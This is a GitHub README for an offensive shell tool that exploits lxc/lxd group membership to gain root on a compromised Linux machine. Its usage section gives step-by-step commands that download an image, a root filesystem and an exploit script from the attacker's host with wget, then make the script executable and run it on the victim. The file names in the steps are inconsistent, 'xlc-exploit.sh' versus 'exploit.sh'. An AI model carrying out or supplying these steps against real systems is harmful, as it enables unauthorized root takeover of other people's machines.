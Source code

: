 # lxc-Privilage-Escalation

## Description

lxc Privilage Escalation Is An Automation Tool To Exploit The Linux xlc Group Misconfiguration Which Leads To Get High Previlage (root) In The Compromised Server Or Machine

## Requitements

<ul>
<li>python3 |-> To Start The Host Server With It</li>
<li>Linux Debian Based |-> Because It Written With Bash :) & The apt For Debian Based Distros Like:</li>
</ul>
<ol>
<li>Debain</li>
<li>Ubuntu</li>
<li>Kali</li>
<li>Parrot OS</li>
<li>Back Box (Ubuntu Based)</li>
</ol>

## Wiki
- Clone The Repository:

`git clone https://github.com/Cyber-Guy1/lxc-Privilage-Escalation.git`

- Or Download It As A zip File

- Get Into The Cloned Repository:

`cd lxc-Privilage-Escalation`

- Give It The Right Permission:

`chmod +x xlc-exploit.sh`

- Run It:

`./exploit.sh`

- After The Tool Finished It's Tasks Now Go To The Compromised Machine

- Upload The Files Which Will Be The Exploit For Us In The Compromised Machine By Doing:

 `wget http://[Your IP]:8000/lxd.tar.xz` <br>[-] For Example: `wget http://192.168.1.5:8000/lxd.tar.xz`<br><br><br>
 `wget http://[Your IP]:8000/rootfs.squashfs` <br>[-] For Example: `wget http://192.168.1.5:8000/rootfs.squashfs`<br><br><br>

- Then Upload The Exploitation Script:

`wget http://[Your IP]:8000/exploit.sh` [-] For Example: `wget http://192.168.1.5:8000/exploit.sh`

- Give It The Right Permission:

`chmod +x exploit.sh`

- Finally Run It:

`./exploit.sh`

## Welcome Root ;)
